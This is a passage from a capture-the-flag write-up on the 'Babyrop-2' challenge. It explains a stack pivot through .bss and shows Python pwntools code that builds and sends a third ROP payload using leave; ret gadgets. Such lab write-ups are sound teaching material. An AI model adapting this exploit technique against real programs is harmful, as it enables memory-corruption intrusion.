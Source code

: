As you've noted, the CEW (second) payload overflows the program again. This sets `rbp` to `0x404058`. At the end of `main`, the new `RSP` value will be `0x404060`.

![f248a65d7973c4659e87fceb253f7db1.png](/images/SmileyCTF/SmileyCTF-Babyrop-2/f248a65d7973c4659e87fceb253f7db1.png)


### The magic

Here's where the magic happens: the **CEM (third) payload**. This carefully crafted payload is responsible for managing the execution flow.

```python
payload  = p64(bss + 0x20)   # 0x404038
payload += p64(leave_ret)    # 0x404040
payload += b'C' * 0x10       # 0x404048 - 0x404050
payload += p64(bss)          # 0x404058
payload += p64(leave_ret)    # 0x404060

input("Payload 3")
io.sendline(payload)

io.recvline()
```
